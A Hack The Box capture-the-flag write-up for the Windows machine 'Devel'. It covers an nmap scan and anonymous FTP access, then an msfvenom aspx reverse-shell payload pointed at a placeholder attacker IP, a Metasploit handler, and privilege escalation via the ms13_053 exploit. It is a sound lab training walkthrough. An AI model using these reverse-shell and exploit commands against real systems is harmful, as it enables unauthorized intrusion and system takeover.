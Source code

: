 # Hack the box - Devel

<img align="left" src="logo.png">
&nbsp;<span style="color:#b5e853; font-weight: bold">OS: <img align="top" src="../../../images/windows.png"> </span><b>Windows</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">IP: </span><b>10.10.10.5</b>

&nbsp;<span style="color:#b5e853; font-weight: bold">Difficulity: </span><b>Easy</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">Release: </span><b>2017 Mar 15</b>

___

## Port scanning
```
nmap -sC -sV -T4 -oA nmap 10.10.10.5
```
![Nmap results](./nmap.png)

We can see there is anonymous FTP login on port 21. Let's try to login with anonymous:anonymous:

![FTP login](ftp_login.png)

Successful login with FTP. We can see that there is web server files inside.
___

## Exploitation

Since server uses aspx let's make reverse shell using msfvenom:

```
msfvenom -p windows/meterpreter/reverse_tcp -f aspx -o shell.aspx LHOST=10.10.x.x LPORT=4444
```

![Msfvenom](msfvenom.png)

![File upload](file_upload.png)

When reverse shell file is uploaded on server, we can open metasploit and use meterpreter:

```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 10.10.x.x
set lport 4444
run
```

![Exploitation](exploitation.png)

## Privilege escalation

Time to gather information about system so we can potentialy escalate privileges:

![System information](system_information.png)

Machine uses Microsoft Windows 7 Enterprise operating system, lets try local exploit suggester tool:

```
Ctrl+c -> y
background
set session 1
run
```

![Local exploit suggester](local_exploit_suggester.png)

We can see that machine is vulnerable for couple of exploits. 3rd one seems to work:

```
use exploit/windows/local/ms13_053_schlamperei
set session 1
run
set lhost 10.10.x.x
run
```

![Privilege escalation](privilege_escalation.png)

We have system user rights. Time to finish the challenge:

![Flags capture](flags_capture.png)